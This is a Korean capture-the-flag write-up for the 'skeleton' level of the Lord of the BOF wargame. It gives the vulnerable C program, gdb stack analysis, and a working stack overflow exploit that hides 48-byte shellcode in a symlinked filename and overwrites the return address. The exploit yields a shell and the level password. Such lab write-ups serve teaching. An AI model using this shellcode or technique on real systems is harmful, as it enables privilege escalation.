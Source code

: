 ```yaml
---
title: "[LOB]Level10. skeleton"
tags: [Wargame, LOB, Write-up]
author: eli_ez3r
key: 20180830
modify_date: 2018-08-30
article_header:
  type: cover
  image:
    src: 
---
```


[+ argvHunter](#){:.button.button--outline-success.button--pill}

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - skeleton
        - argv hunter
*/
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i, saved_argc;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}

	// egghunter
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	// check the length of argument
	if(strlen(argv[1]) > 48){
		printf("argument is too long!\n");
		exit(0);
	}

	// argc saver
	saved_argc = argc;

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

    // buffer hunter
    memset(buffer, 0, 40);

	// ultra argv hunter!
	for(i=0; i<saved_argc; i++)
		memset(argv[i], 0, strlen(argv[i]));
}
```

-----

### 0x01. Analysis

- RET 시작주소 `\xbf`
- argv[1] 48byte 길이 제한
- 환경변수 초기화
- buffer배열 초기화
- **argv 인자값 모두 초기화**

argv 인자값 모두 초기화되기 때문에 이전문제처럼 argv[0]값을 이용한 풀이는 불가능해 보인다.

하지만, **환경변수 영역에서 초기화 할 수 없는 영역**이 있다. 그것은 바로 자신의 명령어, 즉 **실행 파일 이름은 초기화 될 수 없다.**

```
[vampire@localhost vampire]$ gdb -q akeleton
(gdb) set dis int
(gdb) b*main
Breakpoint 1 at 0x8048500
(gdb) r `python -c 'print "\xbf"*48'`
Starting program: /home/vampire/akeleton `python -c 'print "\xbf"*48'`

Breakpoint 1, 0x8048500 in main ()
(gdb) x/50s $esp
0xbffffdda:      "i686"
0xbffffddf:      "/home/vampire/akeleton"
0xbffffdf6:      '? <repeats 48 times>
0xbffffe27:      "PWD=/home/vampire"
0xbffffe39:      "REMOTEHOST=192.168.23.1"
0xbffffe51:      "HOSTNAME=localhost.localdomain"
0xbffffe70:      "LESSOPEN=|/usr/bin/lesspipe.sh %s"
0xbffffe92:      "USER=vampire"
0xbffffe9f:      "LS_COLORS="
0xbffffeaa:      "MACHTYPE=i386-redhat-linux-gnu"
0xbffffec9:      "MAIL=/var/spool/mail/vampire"
0xbffffee6:      "INPUTRC=/etc/inputrc"
0xbffffefb:      "BASH_ENV=/home/vampire/.bashrc"
0xbfffff1a:      "LANG=en_US"
0xbfffff25:      "LOGNAME=vampire"
0xbfffff35:      "SHLVL=1"
0xbfffff3d:      "SHELL=/bin/bash2"
0xbfffff4e:      "USERNAME="
0xbfffff58:      "HOSTTYPE=i386"
0xbfffff66:      "OSTYPE=linux-gnu"
0xbfffff77:      "HISTSIZE=1000"
0xbfffff85:      "TERM=ansi"
0xbfffff8f:      "HOME=/home/vampire"
0xbfffffa2:      "PATH=/usr/local/bin:/bin:/usr/bin:/usr/X11R6/bin:/home/vampire/bin"
0xbfffffe5:      "/home/vampire/akeleton"
```

 환경변수가 초기화 되기 전 환경변수 영역의 값들이다. 

```
(gdb) b*main+368
Breakpoint 2 at 0x8048670
(gdb) c
Continuing.
옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜

Breakpoint 2, 0x8048670 in main ()
(gdb) x/50s 0xbffffddf
0xbffffddf:      ""
0xbffffdf6:      ""
============================(생략)===========================
0xbfffffa2:      ""
0xbfffffe5:      "/home/vampire/akeleton"
```

main 함수가 끝나기 직전 환경변수 영역이다.

비교해 보면 실행파일의 이름을 저장하는 영역인 `0xbfffffe5` 환경변수 영역은 초기화 되지 않았음을 확인 할 수 있다. 따라서 argv[0]의 영역이 아닌 이부분을 이용하여 심볼릭링크를 활용하면 될것 같다.



먼저, 공격에 사용될 payload와 똑같은 길이로 심볼릭 링크를 생성한 후, core 덤프를 확인하여 실제 주소를 확인하자.

```
[vampire@localhost vampire]$ ln -s akeleton `python -c 'print "A"*50+"S"*48+"A"*32'`
[vampire@localhost vampire]$ ./`python -c 'print "A"*50+"S"*48+"A"*32'` `python -c 'print "\x90"*44+"\xbf\xbf\xbf\xb f"'`
릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱옜옜
Segmentation fault (core dumped)
```

> 스택 최상단부라 그런지 심볼릭 링크 만들때 Shell Code 뒷부분에 NOP Code를 안넣으니 실제 exploit 할 때 계속 segment fault가 떳다. 때문에 Shell Code 뒤에 충분한 공간을 만들어준다.

```
[vampire@localhost vampire]$ gdb -q -c core
Core was generated by `                                                                              '.
Program terminated with signal 11, Segmentation fault.
#0  0xbfbfbfbf in ?? ()
(gdb) x/100x $esp
=================================(생략)=====================================
0xbfffff70:     0x00000000      0x2e000000      0x4141412f      0x41414141
0xbfffff80:     0x41414141      0x41414141      0x41414141      0x41414141
0xbfffff90:     0x41414141      0x41414141      0x41414141      0x41414141
0xbfffffa0:     0x41414141      0x41414141      0x53414141      0x53535353
0xbfffffb0:     0x53535353      0x53535353      0x53535353      0x53535353
0xbfffffc0:     0x53535353      0x53535353      0x53535353      0x53535353
0xbfffffd0:     0x53535353      0x53535353      0x41535353      0x41414141
0xbfffffe0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffff0:     0x41414141      0x41414141      0x00414141      0x00000000
0xc0000000:     Cannot access memory at address 0xc0000000
```

초기화 되지 않는 환경변수 영역의 주소는 `0xbfffff80` 주변임을 확인한다.



-----

### 0x02. Exploit

```
'\x2f'없는 shell(48byte) = \xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81
```

이제 실제 Shell Code를 이용하여 심볼릭 링크를 `skeleton` 바이너리와 연결하여 생성한다.

```
[vampire@localhost vampire]$ ln -s skeleton `python -c 'print "\x90"*50+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xf f\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x5 1\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x90"*32'`
```

```
[vampire@localhost vampire]$ ./`python -c 'print "\x90"*50+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9 \x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2 \x9a\xb1\x0c\xce\x81"+"\x90"*32'` `python -c 'print "\x90"*44+"\x91\xff\xff\xbf"'`
릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱?
풺ash$ id
uid=509(vampire) gid=509(vampire) euid=510(skeleton) egid=510(skeleton) groups=509(vampire)
bash$ my-pass
euid = 510
shellcoder
bash$
```

-----

### 0x03. 정리

이 문제에서 **실제 실행되는 파일의 이름은 스택 최상단에 저장되어 있으며 이는 초기화 할 수 없음**을 확인 할 수 있는 문제였다.